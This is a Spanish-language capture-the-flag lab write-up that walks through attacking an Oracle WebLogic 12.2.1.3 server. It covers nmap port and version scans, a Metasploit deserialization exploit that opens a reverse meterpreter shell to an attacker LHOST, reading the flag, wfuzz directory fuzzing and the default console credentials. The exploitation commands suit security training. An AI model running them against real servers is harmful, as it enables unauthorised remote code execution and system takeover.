


# Laboratorio: Other Notable Applications 🐱‍👓

1. Usamos **`nmap`** para escanear puertos abiertos
* `nmap -p- -sS -Pn -n [IP] -oG ports`

<p align="center">
    
</p>

---

2. Ahora hacemos un escaneo para conocer las versiones y los servicios que se ejecutan en todos los puertos
* `-nmap -sCV -p[Puertos] [IP] -oN versions`

**Output**
```java
<SNIP>
7001/tcp  open  http          Oracle WebLogic admin httpd 12.2.1.3 (T3 enabled)
|_weblogic-t3-info: T3 protocol in use (WebLogic version: 12.2.1.3)
<SNIP>
```

* La aplicación que se ejecuta es **`WebLogic`**
---
3. En este caso usaremos `Metsploit` para obtener una `shell` 
```
msf6 > use exploit/multi/misc/weblogic_deserialize_badattrval
msf6 exploit(multi/misc/weblogic_deserialize_badattrval) > set RHOSTS [IP]
msf6 exploit(multi/misc/weblogic_deserialize_badattrval) > set LHOST 10.10.14.52
msf6 exploit(multi/misc/weblogic_deserialize_badattrval) > run
meterpreter > shell
```
---
4. Ahora leemos la `flag`
* `C:\Users\Administrator\Desktop>type flag.txt`

**Output:** **`w3b_l0gic_RCE!`**

---
### Extra 🌟
Si hacemos **fuzzing** veremos los siguientes directorios
* `wfuzz -c -t 100 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://[IP]:7001/FUZZ/`

**Output**
```
000003630:   302        6 L      18 W       305 Ch      "console"
```

Si visitamos `/console` veremos que tenemos un panel de autenticación y las credenciales por defecto son **`weblogic:Welcome1`**

<p align="center">
    
</p>